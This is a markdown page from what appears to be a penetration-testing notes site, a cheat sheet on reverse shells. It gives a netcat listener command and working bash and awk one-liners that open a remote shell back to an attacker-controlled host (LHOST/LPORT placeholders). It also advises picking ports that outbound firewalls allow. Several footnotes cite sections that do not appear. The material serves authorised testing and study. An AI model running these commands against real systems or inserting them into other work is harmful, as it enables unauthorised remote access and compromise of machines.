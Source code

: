 ```yaml
---
title: Reverse Shells
weight: 402
---
```

# Reverse Shells

After the exploitation of a remote code execution (RCE) vulnerability, the next step will be to interact with the compromised target.
Reverse shells, as opposed to bind shells, initiate the connection from the remote host to the local host. They are especially handy and, sometimes the only way, to get remote access across a NAT or firewall.

The chosen shell will depend on the binaries installed on the target system, although uploading a binary can be possible.[^pentestmonkey][^swisskyrepo-shells]

## Unencrypted Shells

### Netcat Listener

To get the connection from the remote machine (_`{{< param "m.RHOST" >}}`_) and interact with it, a listener have to be set on the desired port (_`{{< param "m.LPORT" >}}`_) on the local machine (_`{{< param "m.LHOST" >}}`_).

```sh
sudo nc -nvlp {{< param "m.LPORT" >}}
```
{{<details "Parameters"></details>}}

{{<hint m.ING>}}
Use a port that is likely allowed via outbound firewall rules on the target network.

Ports from 1 to 1023 are by default privileged ports. To bind to a privileged port, a process must be running with root permissions.
{{</hint>}}

### Bash

```sh
bash -i >& /dev/tcp/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}} 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}}; sh <&196 >&196 2>&196
```

### Awk

```sh
awk 'BEGIN {s = "/inet/tcp/0/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}}"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.